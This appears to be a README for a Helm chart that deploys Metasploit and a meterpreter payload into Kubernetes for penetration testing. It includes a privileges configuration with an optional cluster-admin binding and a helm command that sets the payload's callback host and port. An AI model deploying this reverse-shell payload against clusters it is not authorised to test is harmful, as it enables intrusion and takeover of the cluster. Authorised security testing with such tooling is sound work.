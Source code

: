 
# Running Metasploit Framework Against Kubernetes

Running metasploit framework against Kubernetes enables pentesters to security test cluster components such as the API Server, as well as internal application components or micro-services.

The installation chart (meterpreter) also offers to install & run a metasploit payload, that connects back to metasploit console.
The payload can be deployed with different priviliges and permissions with respect to Kubernetes node hosting metasploit payload, as well as Kubernetes API server itself - see 'priviliges' section under values.yaml

```yaml
priviliges:
  # Disable Kubernetes API Server Access - even to the discovery APIs
  useServiceAccount: true
  # Run metasploit framework as Kubernetes cluster admin (useServiceAccount must be true for this setting to be effective)
  bindClusterRole: "" #cluster-admin 

  #
  # Priviliges related to node hosting metasploit Pod
  # See: https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
  podSecurityContext: {}
    # fsGroup: 2000
  # Metasploit container security context
  securityContext: {}
    #allowPrivilegeEscalation: false
    # capabilities:
    #   add:
    #   - NET_BIND_SERVICE
    #   drop:
    #   - all
    #runAsNonRoot: true
    #runAsUser: 1000
    #runAsGroup: 1000
```

# Installation

1. Make sure helm (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy metasploit. You can install a local Kubernetes cluster using [KIND](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
    > You can create local KIND cluster by running  `make create-kind-cluster`

3. Install meterpreter helm chart by running:

```sh
export MSF_PORT="<routeable port from inside cluster>"
export MSF_IPADDRESS="<routeable ip from inside cluster>"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lport=$MSF_PORT --set lhost=$MSF_IPADDRESS
```
